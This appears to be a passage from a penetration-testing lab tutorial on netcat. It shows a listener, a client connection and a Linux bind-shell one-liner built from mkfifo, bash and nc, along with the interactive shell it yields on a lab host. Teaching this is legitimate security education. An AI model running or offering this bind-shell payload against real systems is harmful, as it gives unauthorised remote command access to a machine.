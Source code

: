 Setting up a shell might be tricky because we gotta think about IP addresses, ports, and the tool we're using to make sure our connection works smoothly.
### Practices with netcat

#### No. 1: Server - Target starting Netcat listener

  

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

In this instance, the target will be our server, and the attack box will be our client. Once we hit enter, the listener is started and awaiting a connection from the client.

Back on the client (attack box), we will use nc to connect to the listener we started on the server.

#### No. 2: Client - Attack box connecting to target

```
nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

On the client-side, we specify the server's IP address and the port that we configured to listen on (`7777`). Once we successfully connect, we can see a `succeeded!` message.

### Establishing a Basic Bind Shell with Netcat

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

 

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

Back on the client, use Netcat to connect to the server now that a shell on the server is being served.

#### No. 2: Client - Connecting to bind shell on target
```shell-session
nc -nv 10.129.41.200 7777

Target@server:~$
```
